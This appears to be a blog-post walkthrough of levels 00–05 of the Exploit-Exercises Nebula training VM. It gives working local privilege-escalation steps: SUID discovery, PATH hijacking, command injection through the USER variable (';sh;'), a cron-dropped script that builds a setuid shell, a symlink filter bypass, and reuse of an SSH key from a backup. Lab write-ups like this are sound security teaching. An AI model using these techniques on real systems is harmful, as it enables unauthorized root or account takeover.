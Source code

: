 ```yaml
---
layout: post
title: "Exploit-Exercises: Nebula (00-05)"
categories: vulnhub exploit-exercises
---
```

* TOC
{:toc}

Image: [Exploit-Exercises: Nebula (v5)](https://www.vulnhub.com/entry/exploit-exercises-nebula-v5,31/)

Because it was not possible to log in via ssh, we generated the host key:

```
ssh-keygen -t rsa -f /etc/ssh/ssh_host_rsa_key
```

# Level00

```
level00@nebula:~$ find / \( -perm -4000 \) 2>/dev/null 
/bin/.../flag00
/bin/fusermount
/bin/mount
/bin/ping
/bin/ping6
/bin/su
[ .. SNIP .. ]
```

We found a suspicious file on the first line, after executing, we obtained flag.
```
level00@nebula:~$ id
uid=1001(level00) gid=1001(level00) groups=1001(level00)
level00@nebula:~$ /bin/.../flag00
Congrats, now run getflag to get your flag!
flag00@nebula:~$ id
uid=999(flag00) gid=1001(level00) groups=999(flag00),1001(level00)
flag00@nebula:~$ getflag 
You have successfully executed getflag on a target account
```

# Level01
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

Solution:
```
level01@nebula:~$ export PATH=.:$PATH
level01@nebula:~$ echo 'sh' > echo
level01@nebula:~$ chmod +x ./echo
level01@nebula:~$ id
uid=1002(level01) gid=1002(level01) groups=1002(level01)
level01@nebula:~$ /home/flag01/flag01
sh-4.2$ id
uid=998(flag01) gid=1002(level01) groups=998(flag01),1002(level01)
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

# Level02
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```

Solution:
```
level02@nebula:~$ export USER=';sh;'
level02@nebula:~$ /home/flag02/flag02 
about to call system("/bin/echo ;sh; is cool")

sh-4.2$ getflag 
You have successfully executed getflag on a target account
```

# Level03
There is a crontab entry that is called every couple of minutes.

Because the /tmp is mounted with nosuid option, we use home directory to store suid binary:
```
level03@nebula:~$ mount | grep nosuid
proc on /proc type proc (rw,noexec,nosuid,nodev)
sysfs on /sys type sysfs (rw,noexec,nosuid,nodev)
devpts on /dev/pts type devpts (rw,noexec,nosuid,gid=5,mode=0620)
tmpfs on /run type tmpfs (rw,noexec,nosuid,size=10%,mode=0755)
tmpfs on /tmp type tmpfs (rw,nosuid,nodev)
none on /run/lock type tmpfs (rw,noexec,nosuid,nodev,size=5242880)
none on /run/shm type tmpfs (rw,nosuid,nodev)
vmware-vmblock on /run/vmblock-fuse type fuse.vmware-vmblock (rw,nosuid,nodev,default_permissions,allow_other)
```

The file invoked by cron is here:

```bash
level03@nebula:/home/flag03$ cat writable.sh 
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
``` 

Our code to obtain suid shell:
```bash
level03@nebula:~$ cd /home/flag03/writable.d/

level03@nebula:/home/flag03/writable.d$ echo '#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
   setreuid(geteuid(),geteuid());
   execve("/bin/sh", NULL, NULL);

   return 0;
}
' > /tmp/run.c


level03@nebula:/home/flag03/writable.d$ echo '#!/bin/bash
gcc /tmp/run.c -o /home/flag03/x
chmod +s /home/flag03/x
' > run.sh
level03@nebula:/home/flag03/writable.d$ chmod +x run.sh
```

After a little waiting, the suid binary is created:
```bash
level03@nebula:/home/flag03/writable.d$ ../x 
bash-4.2$ getflag 
You have successfully executed getflag on a target account
```

# Level04
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
```

We cannot read the token file, but symlink technique is sufficient:
```
level04@nebula:~$ cd /home/flag04/
level04@nebula:/home/flag04$ ./flag04 
./flag04 [file to read]
level04@nebula:/home/flag04$ ./flag04 token 
You may not access 'token'
level04@nebula:/home/flag04$ ln -s /home/flag04/token /tmp/x
level04@nebula:/home/flag04$ ./flag04 /tmp/x 
06508b5e-8909-4f38-b630-fdb148a848a2
level04@nebula:/home/flag04$ su - flag04
Password: 
flag04@nebula:~$ getflag 
You have successfully executed getflag on a target account
```

# Level05
In /home/flag05 we can find the backup file with ssh private key.

```
level05@nebula:/home/flag05$ tar xvzf .backup/backup-19072011.tgz  -C /tmp/
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys

level05@nebula:/home/flag05$ ssh -i /tmp/.ssh/id_rsa flag05@0
flag05@nebula:~$ getflag 
You have successfully executed getflag on a target account
```

